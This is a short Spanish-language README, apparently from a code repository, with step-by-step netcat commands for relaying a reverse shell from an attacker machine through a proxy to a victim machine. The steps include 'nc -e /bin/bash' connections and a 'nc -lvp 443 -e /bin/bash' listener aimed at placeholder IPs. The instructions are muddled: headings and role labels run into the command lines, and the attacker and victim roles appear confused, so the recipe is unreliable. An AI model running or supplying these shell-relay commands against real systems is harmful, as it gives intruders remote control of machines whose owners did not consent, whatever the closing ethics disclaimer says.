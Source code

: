 # README - Configuración de Reverse Shell a través de Proxy
Este README proporciona instrucciones sobre cómo configurar una reverse shell desde una máquina atacante a través de un proxy hacia una máquina final.

# Configuración Máquinas involucradas:
  - Máquina atacante: (IP atacante)
  - Proxy: (IP proxy)
  - Máquina final: (IP víctima)

# Pasos para la configuración:
1. Máquina atacante (IP atacante):

2. Ejecuta el siguiente comando para establecer una conexión a través del proxy y enviar la shell inversa:
- nc -e /bin/bash (IP proxy) 443 | nc -v (IP víctima) 12345 Proxy ((IP proxy)):

# Ejecuta el siguiente comando para escuchar en el puerto 443 y redirigir el tráfico entrante a la máquina final:

- nc -lvp 443 | nc -v (IP víctima) 443 Máquina final ((IP víctima)):

# Configura un listener para recibir la conexión entrante en el puerto 443:

- nc -lvp 443  -e /bin/bash
- 
# Notas importantes:
Asegúrate de tener permisos adecuados y contar con el consentimiento del propietario del sistema antes de realizar este tipo de acciones.
La seguridad ética y responsable es esencial en todas las actividades relacionadas con la seguridad informática.

